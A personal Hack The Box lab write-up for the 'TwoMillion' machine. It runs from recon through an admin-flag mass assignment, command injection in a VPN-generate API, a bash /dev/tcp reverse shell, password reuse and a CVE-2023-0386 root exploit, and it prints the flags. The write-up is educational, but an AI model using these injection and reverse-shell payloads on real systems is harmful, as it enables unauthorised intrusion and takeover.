



# two million

## recon

as usual i ran several nmap scans against the target. the full-range scan didn't reveal anything in addition, so we'll take a closer look at the scan where i ran the default scripts against the previously identified open ports:

```
$ nmap 10.10.11.221 -sV -oA two-million-nmap-scripts -sC -p22,80
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 10:04 EST
Nmap scan report for 10.10.11.221
Host is up (0.024s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

as we can see, there's a redirect to the vhost `2million.htb`, and a curl supports this...

```
$ curl 10.10.11.221 -i                
HTTP/1.1 301 Moved Permanently
Server: nginx
Date: Fri, 05 Jan 2024 15:08:41 GMT
Content-Type: text/html
Content-Length: 162
Connection: keep-alive
Location: http://2million.htb/

<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

let's add this host to our local `/etc/hosts` file.

```
$ echo "10.10.11.221 2million.htb" | sudo tee -a /etc/hosts
[sudo] password for kali: 
10.10.11.221 2million.htb
```

when we now browse to the server's ip address or `curl -L`, we get redirected here:



when browsing the website i find a few things of interest:

1. there is an faq section and it tells us that we will want to solve an entry-level-challenge that is presented "here". here takes us to an invite form at http://2million.htb/invite - i assume that the invite code will be somewhere in the page source

2. there is a high score list at the bottom of the page with links that look like this: https://www.hackthebox.eu/profile/2846 - they lead nowhere, neither inside the vpn nor outside. we might want to add this to our `/etc/hosts` file, but on the other hand it doesn't really look like these typical .htb addresses that we encounter often.

i might return to #2 later. also, we might consider enumerating subdomains/vhosts and directories on the machine. however, i have the feeling that i should focus on finding that invite code first...

for both the landing page and the /invite page i looked at both the source code and the console output in the dev tools. nothing special here. the invite page, however, loads a suspicious script: `/js/inviteapi.min.js` - a few ideas:

1. deobfuscate the script and see where it takes us. my assumption is that the code is here!

2. looking at the embedded script, we can see that on submit the page will call `/api/v1/invite/verify` and then evaluate the response locally and forward us to `/register`. on register, the embedded script will insert the previously entered code and submit it to `/api/v1/user/register`. we could check what this endpoint does and if it even takes the code into consideration.

i'll try #2 first, even though i think #1 is more promising. i just wanna see what this api does... maybe, we do not even need the code at all. then i will look at #1.

i think this is a good use case for burp suite, so let's fire it up... i removed the `readonly` property from the form so that i could enter some random invite code into the input element, filled out all other fields with dummy data, and passed it through burp:

```
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 90
Origin: http://2million.htb
Connection: close
Referer: http://2million.htb/register
Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0
Upgrade-Insecure-Requests: 1

code=hallo&username=hans&email=hans%40byom.de&password=passwd&password_confirmation=passwd
```

```
HTTP/1.1 302 Found

Server: nginx
Date: Sat, 06 Jan 2024 07:31:32 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: /register?error=Code+is+invalid!
Content-Length: 0
```

and as expected, we get a "Code is invalid" response. fair enough. let's now look at the script...

... this looks promising! looking at the function signature (`function(p, a, c, k, e, d)`) suggests that packer was used to minify and obfuscate the code. so let's run it through https://matthewfl.com/unPacker.html, which yields:

```js
function verifyInviteCode(code)
	{
	var formData=
		{
		"code":code
	};
	$.ajax(
		{
		type:"POST",dataType:"json",data:formData,url:'/api/v1/invite/verify',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
function makeInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/how/to/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
```

and that second method and api endpoint look interesting. so let's send a POST request there via curl:

```
$ curl http://2million.htb/api/v1/invite/how/to/generate -X POST | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   249    0   249    0     0   3785      0 --:--:-- --:--:-- --:--:--  3830
{
  "0": 200,                                                                                                       
  "success": 1,                                                                                                   
  "data": {                                                                                                       
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",               
    "enctype": "ROT13"                                                                                            
  },                                                                                                              
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."         
} 
```

as the hint suggests the data is encrypted. and, kindly enough, the data section even gives us the encryption type, which is ROT13, or ceasar. we can use `tr` to decrypit it, for example:

```
$ echo uggcf://jjj.unpxgurobk.rh/ | tr 'A-Za-z' 'N-ZA-Mn-za-m'
https://www.hackthebox.eu/
```

all we need is some indicator that let's us now how the letters where shifted (a shift by 13 letters is the standard ROT13). sometimes we need to guess, but here we have a pretty good indicator. the end looks like a url, and i bet that `/ncv/i1` decrypts to `/api/v1`. so, in fact, "a" was encrypted as "n" and we can decrypt the message exactly as we did with the example:

```
$ echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

let's do it:

```
$   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    91    0    91    0     0   1520      0 --:--:-- --:--:-- --:--:--  1542
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "SDZGQUEtSkU5NEwtUVNFTUEtVDA5Qk0=",
    "format": "encoded"
  }
}
```

there it is, but it is still encoded, as the `format` field suggests. this looks very base64-ish, so lets decode it:

```
$ echo SDZGQUEtSkU5NEwtUVNFTUEtVDA5Qk0= | base64 -d
H6FAA-JE94L-QSEMA-T09BM
```

with this code, we can now officially proceed through the signup and login flow to log in to our dashboard:



to sum up: to get to this point, we have identified the following pages and api endpoints:

```
- http://2million.htb/
- http://2million.htb/invite
- http://2million.htb/register
- http://2million.htb/api/v1/invite/verify
- http://2million.htb/api/v1/invite/register
- http://2million.htb/api/v1/invite/how/to/generate
- http://2million.htb/api/v1/invite/generate
```

plus this script

```
- http://2million.htb/js/inviteapi.min.js
```

we did most of by following breadcrumbs in the source code. i bet that we would also have found this generate endpoint by dirbusting the application.

so let's look closer at the page that we have at hand... many of the pages that have links in the main navigation do not work properly. those that do:

```
- http://2million.htb/home
- http://2million.htb/home/rules
- http://2million.htb/home/changelog
- http://2million.htb/home/access
```

i verified this with a `curl 'http://2million.htb/home' ... | grep href` that i had copied from firefox (to include the session cookie) and it looks like i didn't miss anything. despite two social media links everything else appears to be pointing to `#`.

the regenerate button on the access-page let's us, indeed, download new vpn credentials. i checked the file, but it does not look very interesting... let's see if it actually works.

i added the host of the vpn server to `/etc/hosts` and then tried it, but i always get a connection refused.

```
$ sudo openvpn chrisvomrhein.ovpn
2024-01-06 03:29:04 WARNING: Compression for receiving enabled. Compression has been used in the past to break encryption. Sent packets are not compressed unless "allow-compression yes" is also set.
2024-01-06 03:29:04 Note: --data-cipher-fallback with cipher 'AES-128-CBC' disables data channel offload.
2024-01-06 03:29:04 OpenVPN 2.6.7 x86_64-pc-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] [DCO]
2024-01-06 03:29:04 library versions: OpenSSL 3.0.11 19 Sep 2023, LZO 2.10
2024-01-06 03:29:04 DCO version: N/A
2024-01-06 03:29:04 TCP/UDP: Preserving recently used remote address: [AF_INET]10.10.11.221:1337
2024-01-06 03:29:04 Socket Buffers: R=[212992->212992] S=[212992->212992]
2024-01-06 03:29:04 UDPv4 link local: (not bound)
2024-01-06 03:29:04 UDPv4 link remote: [AF_INET]10.10.11.221:1337
2024-01-06 03:29:04 read UDPv4 [ECONNREFUSED]: Connection refused (fd=3,code=111)
2024-01-06 03:29:06 read UDPv4 [ECONNREFUSED]: Connection refused (fd=3,code=111)
...
```

let's run nmap to see if there's anything running at the 1337 port that we may have missed before:

```
$ nmap 10.10.11.221 -p1337                                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-06 03:32 EST
Nmap scan report for 2million.htb (10.10.11.221)
Host is up (0.026s latency).

PORT     STATE  SERVICE
1337/tcp closed waste

Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
```

nothing there.

at this point i felt a bit lost and i briefly looked at the official writeup. it appears that the next step is enumerating the backend api. when we click the "connection pack" button, we can see in the developer tools that a request is fired against the api endpoint `http://2million.htb/api/v1/user/vpn/generate`. let's see if there are more endpoints...

i first tried using `gobuster` to enumerate the api, but since endpoints can be nested deep, this is probably the wrong tool. depending on where you start with your search, you might be able to find something; or not. in addition, the 2million api returns a "301 moved permanently" when a route doesn't exist, so we need to blacklist this. i tried several approaches: the two where i was able to identify something where:

```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://2million.htb/api/v1/user/vpn -c PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0 -b "301,404"   
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/api/v1/user/vpn
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   301,404
[+] Cookies:                 PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/download             (Status: 200) [Size: 10824]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

which isn't that interesting and, by guessing, i also found

```
$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://2million.htb/api/v1/admin -c PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0 -b "301,404"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/api/v1/admin
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   301,404
[+] Cookies:                 PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/auth                 (Status: 200) [Size: 17]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

and

```
$ gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt -u http://2million.htb/api/ -c PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0 -b "301,404" 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://2million.htb/api/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
[+] Negative Status codes:   404,301
[+] Cookies:                 PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/v1                   (Status: 200) [Size: 800]
Progress: 174 / 175 (99.43%)
===============================================================
Finished
===============================================================
```

that looks promising. i'll admit that, at this point, i was kinda impatient and looked at the official writeup. and indeed, i already found what i needed, i was just too lazy to curl `http://2million.htb/api/v1`, as this gives us a basic api documentation, without any need for further enumeration.

```
$ curl 'http://2million.htb/api/v1' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' | jq   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   800    0   800    0     0  10918      0 --:--:-- --:--:-- --:--:-- 11111
{
  "v1": {                                                                                                         
    "user": {                                                                                                     
      "GET": {                                                                                                    
        "/api/v1": "Route List",                                                                                  
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",                               
        "/api/v1/invite/generate": "Generate invite code",                                                        
        "/api/v1/invite/verify": "Verify invite code",                                                            
        "/api/v1/user/auth": "Check if user is authenticated",                                                    
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",                                          
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",                                            
        "/api/v1/user/vpn/download": "Download OVPN file"                                                         
      },                                                                                                          
      "POST": {                                                                                                   
        "/api/v1/user/register": "Register a new user",                                                           
        "/api/v1/user/login": "Login with existing user"                                                          
      }                                                                                                           
    },                                                                                                            
    "admin": {                                                                                                    
      "GET": {                                                                                                    
        "/api/v1/admin/auth": "Check if user is admin"                                                            
      },                                                                                                          
      "POST": {                                                                                                   
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"                                            
      },                                                                                                          
      "PUT": {                                                                                                    
        "/api/v1/admin/settings/update": "Update user settings"                                                   
      }                                                                                                           
    }                                                                                                             
  }                                                                                                               
}    
```

duh!

## initial foothold

the two interesting api routes i investigated further are

```
- /api/v1/user/auth
- /api/v1/admin/auth
- /api/v1/admin/settings/update
```

let's take a look at our auth entries:

```
$ curl 'http://2million.htb/api/v1/user/auth' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' | jq 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    49    0    49    0     0    978      0 --:--:-- --:--:-- --:--:--  1000
{
  "loggedin": true,                                                                                               
  "username": "chris",                                                                                            
  "is_admin": 0                                                                                                   
}

$ curl 'http://2million.htb/api/v1/admin/auth' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    17    0    17    0     0    308      0 --:--:-- --:--:-- --:--:--   314
{
  "message": false                                                                                                
}
```

let's try to make a PUT request against that update endpoint. after some trial and error i found this to work

```
$ curl 'http://2million.htb/api/v1/admin/settings/update' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' -d '{"is_admin": 1, "username": "chris", "email": "chris@byom.de"}' -X PUT -H 'Content-Type: application/json'  -i
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 07 Jan 2024 10:09:41 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache

{"id":14,"username":"chris","is_admin":1}

$ curl 'http://2million.htb/api/v1/user/auth' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    49    0    49    0     0    998      0 --:--:-- --:--:-- --:--:--  1020
{
  "loggedin": true,                                                                                               
  "username": "chris",                                                                                            
  "is_admin": 1                                                                                                   
}

$ curl 'http://2million.htb/api/v1/admin/auth' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    16    0    16    0     0    276      0 --:--:-- --:--:-- --:--:--   280
{
  "message": true                                                                                                 
} 
```

let's now take a look at the remaining api endpoint:

```
$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' -X POST
{"status":"danger","message":"Invalid content type."}

$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' -X POST -H 'Content-Type: application/json'
{"status":"danger","message":"Missing parameter: username"}  

$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' -X POST -H 'Content-Type: application/json'  -d '{"username":"cvr"}' 
client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
tls-cipher "DEFAULT:@SECLEVEL=0"

... SNIP ...
```

great. at that point, however, i was a bit lost and, again, had to peek at the lookup. it turns out that i was almost there; still, to be honest, this would have talen me ages to come up with myself!

the idea is this: if the certificate was generated with some kind of os functionality, e.g. through an exec statement in a php script, we might be able to get remote code execution. the writeup suggests to use `;id;` as the username. the first `;` closes the first statement, and then executes `id;` afterwards.

```
$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' -X POST -H 'Content-Type: application/json'  -d '{"username":";id;"}'
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ curl 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' -X POST -H 'Content-Type: application/json'  -d '{"username":";pwd;"}'
/var/www/html
```

awesome! let's use this to establish a reverse shell!

we create a netcat listener with `nc -lnvp 1337` and then inject the command as follows:

```
curl 'http://2million.htb/api/v1/admin/vpn/generate' -H 'Cookie: PHPSESSID=5329jc4e6qlsbpo2bo5mttprt0' -X POST -H 'Content-Type: application/json'  -d "{\"username\":\";bash -c 'bash -i >& /dev/tcp/10.10.14.4/1337 0>&1';\"}"
```

## user flag

on the system i did some initial recon with `sudo -l` which required a password. i then ran linenum and linpeas. the latter showed something interesting:

```
$ ./linpeas.sh

... SNIP ...
══════════╣ Analyzing Env Files (limit 70)
-rw-r--r-- 1 root root 87 Jun  2  2023 /var/www/html/.env                                           
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
... SNIP ...
```

if the admin was lazy, chances are that he uses the same password to login via ssh. let's try that!

... and we're in!

the flag is right there in the user home:

```
$ cat user.txt
c157eaa4cac8e8e687f92b3b75eafb0d
```

## escalation to root

next, i reran both enumeration scripts but didn't find anything that looked suspicious. i then connected to the database with `$ mysql --password=SuperDuperPass123` and poked around a bit...

```
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| htb_prod           |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use htb_prod

Database changed
MariaDB [htb_prod]> show schema
    -> ;
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'schema' at line 1
MariaDB [htb_prod]> show tables
    -> ;
+--------------------+
| Tables_in_htb_prod |
+--------------------+
| invite_codes       |
| users              |
+--------------------+
2 rows in set (0.000 sec)

MariaDB [htb_prod]> select * from users;
+----+---------------+----------------------------+--------------------------------------------------------------+----------+
| id | username      | email                      | password                                                     | is_admin |
+----+---------------+----------------------------+--------------------------------------------------------------+----------+
| 11 | TRX           | trx@hackthebox.eu          | $2y$10$TG6oZ3ow5UZhLlw7MDME5um7j/7Cw1o6BhY8RhHMnrr2ObU3loEMq |        1 |
| 12 | TheCyberGeek  | thecybergeek@hackthebox.eu | $2y$10$wATidKUukcOeJRaBpYtOyekSpwkKghaNYr5pjsomZUKAd0wbzw4QK |        1 |
| 13 | chris@byom.de | chris@byom.de              | $2y$10$eKWG4THRbypBcGNWiP/XwOotHs.i/T4Uq64xtid9QPR.gxhhnSLPK |        1 |
+----+---------------+----------------------------+--------------------------------------------------------------+----------+
3 rows in set (0.001 sec)
```

there are a bunch of users with hacked passwords that we might be able to bruteforce with john the ripper... maybe one of them is the root user and uses the password on htb as well?

this takes forever... the writeup suggests to take a look at /var/mail, and indeed, there is an email from Godfather to admin, suggesting to update the OS, as there seems to be an vulnerability in "OverlayFS / FUSE". let's look that up! a quick google search reveals CVE-2023-0386. it looks promising: "This uid mapping bug allows a local user to escalate their privileges on the system." (https://nvd.nist.gov/vuln/detail/CVE-2023-0386)

at this point i decided to follow the official writeup:

i searched for an exploit for CVE-2023-0386 and found this one: https://github.com/sxlmnwb/CVE-2023-0386

i downloaded it to my attacking vm and zipped it with

```
$ git clone git@github.com:sxlmnwb/CVE-2023-0386.git
$ zip -r exploit.zip CVE-2023-0386
$ sudo python3 -m http.server 8080
```

then i downloaded it to the target and ran `unzip`, finally, i followed the exploit docs:

```
$ make all

# in terminal 1
$ ./fuse ./ovlcap/lower ./gc

# in terminal 2
$ ./exp
```

the root flag is in `/root/root.txt`:

```
root@2million:/root# cat root.txt
5102cf315f9f0e371f1c3620c4101f6d
```

there's also a thank_you.json file with some url encoded data...

```
root@2million:/root# cat thank_you.json 
{"encoding": "url", "data": "%7B%22encoding%22:%20%22hex%22,%20%22data%22:%20%227b22656e6372797074696f6e223a2022786f72222c2022656e6372707974696f6e5f6b6579223a20224861636b546865426f78222c2022656e636f64696e67223a2022626173653634222c202264617461223a20224441514347585167424345454c43414549515173534359744168553944776f664c5552765344676461414152446e51634454414746435145423073674230556a4152596e464130494d556745596749584a51514e487a7364466d494345535145454238374267426942685a6f4468595a6441494b4e7830574c526844487a73504144594848547050517a7739484131694268556c424130594d5567504c525a594b513848537a4d614244594744443046426b6430487742694442306b4241455a4e527741596873514c554543434477424144514b4653305046307337446b557743686b7243516f464d306858596749524a41304b424470494679634347546f4b41676b344455553348423036456b4a4c4141414d4d5538524a674952446a41424279344b574334454168393048776f334178786f44777766644141454e4170594b67514742585159436a456345536f4e426b736a41524571414130385151594b4e774246497745636141515644695952525330424857674f42557374427842735a58494f457777476442774e4a30384f4c524d61537a594e4169734246694550424564304941516842437767424345454c45674e497878594b6751474258514b45437344444767554577513653424571436c6771424138434d5135464e67635a50454549425473664353634c4879314245414d31476777734346526f416777484f416b484c52305a5041674d425868494243774c574341414451386e52516f73547830774551595a5051304c495170594b524d47537a49644379594f4653305046776f345342457454776774457841454f676b4a596734574c4545544754734f414445634553635041676430447863744741776754304d2f4f7738414e6763644f6b31444844464944534d5a48576748444267674452636e4331677044304d4f4f68344d4d4141574a51514e48335166445363644857674944515537486751324268636d515263444a6745544a7878594b5138485379634444433444433267414551353041416f734368786d5153594b4e7742464951635a4a41304742544d4e525345414654674e4268387844456c6943686b7243554d474e51734e4b7745646141494d425355644144414b48475242416755775341413043676f78515241415051514a59674d644b524d4e446a424944534d635743734f4452386d4151633347783073515263456442774e4a3038624a773050446a63634444514b57434550467734344241776c4368597242454d6650416b5259676b4e4c51305153794141444446504469454445516f36484555684142556c464130434942464c534755734a304547436a634152534d42484767454651346d45555576436855714242464c4f7735464e67636461436b434344383844536374467a424241415135425241734267777854554d6650416b4c4b5538424a785244445473615253414b4553594751777030474151774731676e42304d6650414557596759574b784d47447a304b435364504569635545515578455574694e68633945304d494f7759524d4159615052554b42446f6252536f4f4469314245414d314741416d5477776742454d644d526f6359676b5a4b684d4b4348514841324941445470424577633148414d744852566f414130506441454c4d5238524f67514853794562525459415743734f445238394268416a4178517851516f464f676354497873646141414e4433514e4579304444693150517a777853415177436c67684441344f4f6873414c685a594f424d4d486a424943695250447941414630736a4455557144673474515149494e7763494d674d524f776b47443351634369554b44434145455564304351736d547738745151594b4d7730584c685a594b513858416a634246534d62485767564377353043776f334151776b424241596441554d4c676f4c5041344e44696449484363625744774f51776737425142735a5849414242454f637874464e67425950416b47537a6f4e48545a504779414145783878476b6c694742417445775a4c497731464e5159554a45454142446f6344437761485767564445736b485259715477776742454d4a4f78304c4a67344b49515151537a734f525345574769305445413433485263724777466b51516f464a78674d4d41705950416b47537a6f4e48545a504879305042686b31484177744156676e42304d4f4941414d4951345561416b434344384e467a464457436b50423073334767416a4778316f41454d634f786f4a4a6b385049415152446e514443793059464330464241353041525a69446873724242415950516f4a4a30384d4a304543427a6847623067344554774a517738784452556e4841786f4268454b494145524e7773645a477470507a774e52516f4f47794d3143773457427831694f78307044413d3d227d%22%7D"}
```

we can run this through cyberchef multiple times to reveal the final message:

> Dear HackTheBox Community,
> 
> We are thrilled to announce a momentous milestone in our journey together. With immense joy and gratitude, we celebrate the achievement of reaching 2 million remarkable users! This incredible feat would not have been possible without each and every one of you.
> 
> From the very beginning, HackTheBox has been built upon the belief that knowledge sharing, collaboration, and hands-on experience are fundamental to personal and professional growth. Together, we have fostered an environment where innovation thrives and skills are honed. Each challenge completed, each machine conquered, and every skill learned has contributed to the collective intelligence that fuels this vibrant community.
> 
> To each and every member of the HackTheBox community, thank you for being a part of this incredible journey. Your contributions have shaped the very fabric of our platform and inspired us to continually innovate and evolve. We are immensely proud of what we have accomplished together, and we eagerly anticipate the countless milestones yet to come.
> 
